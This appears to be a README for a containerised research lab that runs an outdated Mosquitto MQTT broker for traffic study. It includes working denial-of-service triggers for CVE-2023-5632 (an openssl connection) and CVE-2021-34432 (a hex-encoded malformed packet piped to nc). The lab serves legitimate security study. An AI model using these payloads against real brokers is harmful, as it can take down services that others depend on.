# MQTT-in-Containers
This virtual environment was created to observe and study MQTT communications, running a deprecated version of the [Mosquitto](https://mosquitto.org/) broker (version 2.0.5). There is a version with encrypted and one without encrypted traffic for you to try. We replicated two DoS attacks, namely CVE-2023-5632 and CVE-2021-34432. Further down we have included some steps on how to replicate these.

Here is a quick rundown of how to use the files in this repo:

1. We recommend you use Linux or WSL for Windows environments.
2. You need to [install Docker](https://docs.docker.com/get-started/get-docker/) to run the containers.
3. With "sudo docker compose up" you can start up all containers mentioned in the specific compose file
4. You can then capture the traffic in Wireshark for example, although finding the correct interface is not always easy.
5. The ip adresses for the encrypted setup are static, you can change it in the compose file if needed. 
6. Play around with different settings, creating your own certificates (if you dare), topics etc. 

Note: The password for any certificate file is "test"

CVE-2023-5632 <br>
This CVE works with the encrypted Broker. To trigger the exploit all you need is the following command. The ip adress is static and should work unless you changed it:<br>
openssl s_client -connect 172.23.0.2:8883<br>
It might be beneficial to limit the number of cpu cores of your testing enviroment. For WSL this can be done in the WSL settings.<br>
CVE-2021-34432<br>
This command only works with the unencrypted broker and if allow_anonymous is set to true in the mosquitto.conf file. But could also be replicated for the encrypted broker if you are able to sucessfully authenticate a package with topic length 0.<br>
´echo 102b00044d5154540500003c0822000a110000000f00166d7174746f6f6c732d383739363736313532303132393d0900000621000a220005e000 | xxd -p -r | nc localhost 1883´

